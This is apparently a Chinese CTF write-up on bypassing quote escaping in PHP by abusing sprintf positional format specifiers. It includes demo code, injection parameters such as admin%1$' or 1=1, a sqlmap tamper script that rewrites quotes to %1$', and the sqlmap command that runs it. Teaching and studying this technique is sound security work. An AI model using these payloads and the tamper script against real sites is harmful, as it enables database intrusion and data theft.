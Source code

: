 ```yaml
---
title: sprintf格式逃逸注入
date: 2018-09-08 18:27:35
categories: ctf
tag: sql注入
---
```


# 格式化漏洞

## 题目描述

sql注入 + % 报错  
![1536150551652](1.png)

## 题目分析

### 格式化注入漏洞

在php调用`sprintf`函数时,如果 参数的数量少于 `%`数量,会报错.

```php
$sql = "select * from user where username = '%\' and 1=1#' and password='%s';";
$args = "admin";
echo sprintf( "select * from user where username = '%\' and 1=1#' and password='%s';", $args) ;
// 报错
echo "<br>";
$sql = "select * from user where username = '%1$\' and 1=1#' and password='%s';";
$args = "admin";
echo sprintf( "select * from user where username = '%1$\' and 1=1#' and password='%s';", $args) ;
//select * from user where username = '' and 1=1#' and password='admin';
```

其中通过`%'`会先被waf过滤为`%\'`然后,`sprintf`会把`%\`吞掉.其中`%1$'`原理一样.

但是不知道为什么,<font color='red'>`%'`会报错. </font>而`%1$'`<font color='red'>不会报错 </font>.

## 解决

构造参数 `admin%1$' or 1=1` 与 `admin$1' or 1=2`存在报错注入.可以通过sqlmap编写 tamper 去跑.

### 编写tamper

```python
# -*- coding: utf-8 -*-

# !/usr/bin/env python
"""
v0.0.1
2018.3.30
filename: sprintf.py
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW


def dependencies():
    pass


def tamper(payload, **kwargs):
    """
    通过格式化字符串漏洞来完成对单引号的闭合
    """
    return payload.replace("'", "%1$'")
```

然后执行

```bash
sqlmap -r “request.txt” -p username –level 3 –dbms mysql –tamper sprintf.py
```


